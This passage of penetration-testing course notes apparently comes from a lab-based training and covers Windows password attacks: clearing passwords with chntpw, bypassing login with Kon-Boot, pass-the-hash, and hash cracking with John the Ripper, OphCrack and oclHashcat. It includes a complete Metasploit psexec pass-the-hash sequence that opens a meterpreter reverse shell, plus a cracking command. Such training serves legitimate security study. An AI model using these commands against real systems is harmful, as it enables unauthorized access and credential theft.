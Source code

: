 * Use tools like `chntpw` (included in BT5).
* Can clear passwords, change passwords, promote users to Administrator.

#### **Bypassing Windows Login**

* **Kon-Boot:**
  * Allows changing Linux and Windows kernel contents on the fly.
  * Bypasses Windows login without typing the correct password.
  * Allows entering password-protected profiles without knowing the password.

**Downloads:**

* [Kon-Boot](http://www.piotrbania.com/all/kon-boot/)
* [BackTrack5](https://www.backtrack-linux.org/)

### What to do with Hashes?

### **Pass the Hash**

* **Definition:** Authentication attack using LM & NT hashes to gain access to a remote Windows host without knowing the actual password.
*   **Example using Metasploit:**

    ```bash
    msf > use exploit/windows/smb/psexec
    msf exploit(psexec) > set payload windows/meterpreter/reverse_tcp
    msf exploit(psexec) > set LHOST 192.168.88.132
    msf exploit(psexec) > set LPORT 443
    msf exploit(psexec) > set RHOST 192.168.88.134
    msf exploit(psexec) > set SMBUser eLS
    msf exploit(psexec) > set SMBPass 00000000000000000000000000000000:0446385C4CBFBAED9F33E1D7B00E184C
    msf exploit(psexec) > exploit
    ```
* **Note:** If only one of LM or NT hashes is available, set the other with 32 0's.

### **Crack the Hash**

* **Process:**
  1. Obtain the hash.
  2. Use a hash function to hash likely passwords.
  3. Match the hashed plaintext to the obtained hash.
* **Tools:**
  * **CPU:**
    * **John the Ripper (JtR):**
      * Example command: `john-386.exe --incremental hashtocrack.txt`
      * Output: `mystrongpsw`
    * **OphCrack:**
      * Supports rainbow tables.
      * Load password hashes and tables hashes, then click 'Crack.'
  * **GPU:**
    * **oclHashcat:**
      * Utilizes GPU to crack hashes.
    * **RainbowCrack:**
      * Uses GPU for rainbow table-based cracking.
      * Requires non-free rainbow tables; tables can be calculated using `rtgen.exe`.
